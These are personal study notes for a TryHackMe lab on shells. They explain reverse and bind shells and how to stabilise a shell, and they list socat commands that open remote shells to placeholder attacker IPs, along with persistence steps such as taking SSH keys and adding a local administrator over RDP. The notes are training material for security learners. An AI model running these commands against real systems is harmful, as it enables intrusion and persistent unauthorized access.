 # Introtoshell

[link to the room](https://tryhackme.com/room/introtoshells)


## links
- [pentestmonkey Reverse Shell Cheat Sheet](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

## types of shells

### reverse shell
 the target is forced to execute code that connects back to your computer.
 Reverse shells are a good way to bypass firewall rules that may prevent you from connecting to arbitrary ports on the target.

### bind shell
the code executed on the target is used to start a listener attached to a shell directly on the target.
This would then be opened up to the internet.
you can connect to the port that the code has opened and obtain RCE.
the advantage of not requiring any configuration on your own network, but may be prevented by firewalls protecting the target.

NB: in most reverse/bind shell are non interactive means we can not execute commands that are interactive like `ssh` or `su`.

## shell stabilisation

### python
- uses Python to spawn a better featured bash shell: `python -c 'import pty;pty.spawn("/bin/bash")'` 
- `export TERM=xterm` give us access to term commands such as `clear`
- CTrl+Z `stty raw -echo; fg` turns off our own terminal echo and foregrounds the shell.
- `reset` fix terminal input
- change the registered width and height of the terminal: in own machine term `stty -a` look for rows/columns, in reverse/bind shell `stty rows/cols <number>`

### rlwrap
gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell; however, some manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell.
- `rlwrap nc -lvnp <port>` This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise.

### socat
limited to Linux targets(stabilisation), first transfer a socat static compiled binary up to the target machine




## socat

### reverse shell
on attacker machine:
`socat TCP-L:<port> -`
    - stable and full tty: `socat TCP-L:<port> FILE:``tty``,raw,echo=0`
on target machine:
- windows: `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`
- linux: `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`
    - stable and full tty: `socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

### bind shell
on target machine:
- windows: `socat TCP-L:<PORT> EXEC:powershell.exe,pipes`
- linux: `socat TCP-L:<PORT> EXEC:"bash -li"`
on attacker machine: 
`socat TCP:<TARGET-IP>:<TARGET-PORT> -`



## next step

### linux
- look for id_rsa, or add own pubkey in authorized_hosts

### windows
- add a user to localgroup administrators
```
net user <username> <password> /add
net localgroup administrators <username> /add
```
- login using RDP
```
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:<IP> /u:<USER> /p:'<PSSWD>'
```
